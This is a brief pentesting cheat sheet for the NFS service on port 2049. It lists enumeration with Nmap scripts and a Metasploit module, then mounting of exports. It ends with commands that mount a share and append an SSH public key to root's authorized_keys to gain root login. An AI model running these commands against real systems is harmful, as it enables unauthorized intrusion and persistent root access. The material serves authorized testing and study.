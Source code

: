# 2049 - NFS

## Enumeration

### Nmap Scripts

```bash
nfs-ls  # List NFS exports and check permissions
nfs-showmount  # Like showmount -e
nfs-statfs  # Disk statistics and info from NFS share
```

### Metasploit

```bash
scanner/nfs/nfsmount  # Scan NFS mounts and list permissions
```

### Mounting

#### Check Available Folders

```bash
showmount -e <IP>
```

#### Create Mount

```bash
# Syntax
mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock
# Example
mkdir /mnt/myroot
mount -t nfs [-o vers=2] 10.12.0.150:/backup /mnt/myroot -o nolock
umount /mnt/myroot/
```

#### Using SSH

```bash
ssh-keygen  # Generate Key Pair
mkdir /mnt/myroot
mount -t nfs <IP>:/<DIR> /mnt/myroot
cat .ssh/id_rsa.pub >> /mnt/myroot/root/.ssh/authorized_keys
umount /mnt/myroot/
```
